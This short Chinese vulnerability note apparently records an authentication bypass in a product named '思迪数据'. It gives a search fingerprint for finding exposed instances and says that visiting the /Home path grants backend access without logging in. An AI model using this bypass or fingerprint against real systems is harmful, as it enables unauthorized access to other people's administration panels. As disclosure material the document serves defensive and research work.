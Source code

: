 # 

# 思迪数据 Home 登录绕过漏洞

## 漏洞描述

思迪数据存在登录绕过漏洞，通过访问特殊路径即可获取后台权限

## 漏洞影响

```
思迪数据
```

## 网络测绘

```
"思迪数据"
```

## 漏洞复现

登录页面



![](./images/202202101855808.png)



访问



```plain
http://xxx.xxx.xxx.xxx/Home
```



![](./images/202202101855833.png)

